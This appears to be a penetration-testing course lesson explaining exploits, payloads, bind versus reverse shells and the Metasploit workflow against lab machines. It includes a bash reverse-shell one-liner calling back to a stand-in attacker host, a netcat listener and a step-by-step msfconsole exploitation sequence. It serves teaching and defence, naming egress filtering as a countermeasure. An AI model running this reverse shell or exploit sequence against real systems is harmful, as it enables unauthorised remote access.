

# Exploitation Fundamentals & Metasploit

Exploitation is the phase where a validated vulnerability becomes *access* — a shell, a session, a
foothold. This lesson explains what an exploit and a payload actually are, the difference between a
bind and a reverse shell, and how the **Metasploit Framework** packages all of this so you can drive
a known exploit against a deliberately vulnerable lab machine. The goal is understanding the
mechanism, not collecting exploits; once you see how a foothold is really established, the specific
module matters less.

!!! danger "Lab targets only"
    Exploitation sends attack code to a target. Against anything you don't own or aren't authorised
    to test, that is a serious crime. Everything here runs against your lab VMs (Metasploitable,
    retired practice boxes). Snapshot the target first so you can reset it.

## The vocabulary, precisely

- **Exploit** — code or a technique that triggers a vulnerability to make the target do something
  unintended (e.g. execute attacker-supplied instructions).
- **Payload** — what runs *after* the exploit succeeds. The exploit is the way in; the payload is
  what you do once in (open a shell, add a user, run a command).
- **Shellcode** — the low-level machine-code payload used by memory-corruption exploits.
- **Listener / handler** — the attacker-side program that catches a connection from a reverse
  payload.
- **Session** — an established interactive foothold on the target.

An exploit without a payload gets you nothing; a payload without a working exploit has no way to
run. Metasploit's design separates the two so you can mix and match.

## Bind vs reverse shells

How do you get an interactive command line on the target? Two directions:

- **Bind shell** — the payload opens a *listening* port on the target and waits; you connect *to*
  it. Simple, but usually blocked by the target's firewall (inbound connections to a random port are
  suspicious and often filtered).
- **Reverse shell** — the payload makes the target connect *out* to a listener on your machine. This
  usually works even through firewalls, because outbound connections are typically allowed. It is
  the default choice for this reason.



You can see the shape of a reverse shell with plain netcat (lab):

```bash
# On the attacker: start a listener
nc -lvnp 4444
# On a lab target you control, point a shell back at the attacker:
#   (illustrative) /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
# The attacker's nc now has an interactive shell on the target.
```

That one-liner *is* a reverse shell: the target runs bash with its input/output wired to a TCP
connection back to the attacker. Metasploit automates generating, delivering and catching far more
robust versions of this.

## The Metasploit Framework

Metasploit (the free framework, `msfconsole`) organises exploitation into interchangeable modules:

| Module type | What it is |
|-------------|------------|
| **exploit** | Triggers a specific vulnerability |
| **payload** | What runs on success (shells, Meterpreter, single commands) |
| **auxiliary** | Scanners, fuzzers, non-exploit tools |
| **post** | Post-exploitation actions once you have a session |
| **encoder / nop** | Transform payloads (e.g. to avoid bad bytes) |

**Meterpreter** is Metasploit's flagship payload — an in-memory, feature-rich session with
file access, privilege commands, pivoting and more, designed to be stealthier and more capable than
a raw shell.

### The workflow

```
msfconsole
search <service or CVE>          # find a module
use exploit/<path>               # select it
info                             # read what it does and needs
show options                     # see required settings
set RHOSTS <lab-target-ip>       # the target
set LHOST <your-ip>              # where a reverse payload calls back
set PAYLOAD <payload>            # e.g. a reverse Meterpreter
check                            # (if supported) test whether target is vulnerable, without firing
run                              # launch
```

On success you get a session. `sessions -l` lists them; `sessions -i 1` interacts with session 1.
The `check` command, when a module supports it, is the validator's friend — it tests
exploitability without actually exploiting.

## A worked example (reasoning)

Your Level 1 enumeration found a lab host running an old, known-vulnerable service, and Level 3
lesson 1 validated the version. In Metasploit you'd `search` the service, `use` the matching
exploit, set `RHOSTS` to the lab target and `LHOST` to your attacker IP, choose a reverse payload
so the target calls back through its firewall, `check` if possible, then `run`. A session opens; you
confirm access with `whoami`/`id`, note the privilege level (often a service account, not root —
which is why Level 3 lessons 4–5 cover privilege escalation), and record the evidence. You've turned
a validated CVE into a documented foothold — the exploitation phase of the lifecycle, done.

## How It Actually Works

Why does separating "exploit" from "payload" matter so much, and why is a reverse shell the
mechanism of choice? Start with the exploit/payload split. A vulnerability gives you *one primitive*
— the ability to make the target execute instructions of your choosing (or, for simpler bugs, run a
command). That primitive is the hard, version-specific part: it depends on the exact bug, memory
layout, or input parsing of one service. But *what you want to do* with that primitive — get a
shell, add a user, pivot — is independent of which bug you used to get there. Metasploit encodes this
independence directly: the exploit's job is just "deliver and trigger these bytes," and the payload
is "these bytes." The same reverse-shell payload rides on top of hundreds of different exploits,
because once you can run instructions, how you *got* the ability to run them no longer matters. This
is why you pick an exploit *and* a payload as separate choices — they solve orthogonal problems.

Now the reverse shell. A firewall's default posture is asymmetric: it heavily restricts *inbound*
connections (you can't just connect to an arbitrary high port on a target — that's what a bind shell
needs, and it's usually blocked) but freely permits *outbound* connections, because internal
machines need to reach the internet for updates, DNS, web traffic and so on. A reverse shell
exploits this asymmetry: instead of the attacker connecting in (blocked), the *target* connects out
to the attacker (allowed). The payload wires the target's shell to that outbound socket, so the
attacker's listener receives a fully interactive session that the firewall waved through as ordinary
egress. This is also why egress filtering and outbound monitoring are such effective defences — they
attack the one assumption (outbound is fine) that the reverse shell depends on. The mechanism and
its defence are two sides of the same door.

## Common mistakes and pitfalls

- **Firing exploits without validating first.** You waste time and risk crashing services. Enumerate,
  validate, *then* exploit (and use `check` when available).
- **Choosing a bind payload behind a firewall** and wondering why nothing connects. Default to
  reverse; bind only where you know inbound is reachable.
- **Forgetting `LHOST`/`LPORT`** or setting `LHOST` to the wrong interface (e.g. a NAT address the
  lab target can't reach). The callback goes nowhere.
- **Not snapshotting the target.** Exploits crash and corrupt services; a snapshot lets you reset and
  retry.
- **Treating a shell as the finish line.** You usually land as a low-privileged account; the
  engagement's impact depends on what you do next (privesc, lateral movement).
- **Running Metasploit against anything outside the lab/scope.** This is the brightest line in the
  course.

## Exercise

1. Reproduce the netcat reverse shell *between two of your own lab machines*: start `nc -lvnp 4444`
   on the attacker and connect a shell back from the target. Confirm you have an interactive prompt
   and explain, step by step, what each part of the one-liner does.
2. In `msfconsole`, `search` for a module matching a service your lab enumeration found. Read its
   `info` and `show options`. List the required options and what each means.
3. Against a deliberately vulnerable lab target (snapshot first), configure and run a known exploit
   with a reverse payload. Record the session, run `id`/`whoami`, and note the privilege level.
4. Explain the difference between an exploit and a payload, and give one reason Metasploit keeps them
   separate.
5. In your own words, explain why a reverse shell usually gets through a firewall when a bind shell
   doesn't, and name one defence that targets that mechanism.
